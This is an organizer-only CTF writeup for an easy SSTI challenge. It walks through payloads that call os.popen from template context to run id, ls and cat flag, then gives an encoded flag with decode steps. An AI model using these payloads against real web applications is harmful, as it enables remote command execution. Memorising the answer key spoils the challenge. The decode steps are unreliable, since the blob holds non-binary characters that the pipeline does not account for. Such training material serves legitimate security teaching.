 >>writeup/solution.md — Organizer-only writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy
 
---

### This writeup describes the intended attack flow and the decode steps players will need to perform. Keep this file private.

## Attack flow (what the player will do inside the app)

## 1. In the search box the player first submits:
```{{7*7}}```
+ This will render and show 49.

## 2. Next they try to gather system information using SSTI:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

+ This will show something like:
```uid=0(root) gid=0(root) groups=0(root)```

## 3. Then they list files in the current directory:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}```

+ This will show entries including flag (and other files).

## 4. Finally they read the flag file with:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

+ The application will return the encoded blob (exact output below):

```
%31%30%30%31%30%31%30%31%30%31%30%31%31%30%30%30%31%31%30%31%30%31%31%30%31%30%31%31%31%30%31%31%30%31%31%30%30%31%31%30%31%30%31%61%31%31%30%30%31%31%30%30%30%31%30%30%30%31%30%30%31%31%31%30%31%31%31%31%31%30%30%30%31%31%30%31%31%31%31%31%31%31%30%31%30%30%30%31%31%31%31%31%30%30%31%30%31%31%30%30%31%31%31%30%30%31%31%31%31%30%30%31%30%31%31%30%31%31%31%31%31%31%31%30%31%31%30%66%31%30%31%61%31%30%30%31%31%31%30%30%31%30%30%30%31%30%30%31%30%30%30%30%30%31%30%31%30%30%30%31%30%30%31%30%30%30%31%31%30%30%30%30%30%31%31%31%31%31%31%31%30%31%30%31%30%31%30%30%30%31%30%31%30%31%31%31%31%31%30%31%31%31%30%31%30%31%30%31%31%31%30%30%31%30%30%64%31%30%31%31%31%30%31%31%30%31%31%30%31%31%30%31%30%30%31%31%31%31%30%31%31%30%31%30%30%65%31%30%31%31%30%31%31%30%31%30%31%31%30%30%30%30%30%30%30%31%30%31%30%31%31%31%30%30%30%30%62%31%30%31%30%31%30%31%30%31%30%30%31%31%30%30%31%64%31%31%64
```
---

### Decode pipeline (organizer helper)

To retrieve the final CTF_flag{...}, apply the following transforms in order to the blob returned by cat flag:

+ 1.URL-decode the percent-encoded string (convert %31 → 1, %30 → 0, %61 → a, etc.).

+ 2.Binary : interpret the result as a sequence of ASCII 0/1 characters (group into 8-bit chunks) and convert each byte to its numeric value.

+ 3.Hex ASCII : interpret the bytes from step 2 as ASCII hex characters (e.g. 43 54 46 5f ...) and convert the hex to raw bytes.

+ 4.Base64-decode the resulting bytes to obtain the final CTF_flag{...} text.

![Step 1](1.png)
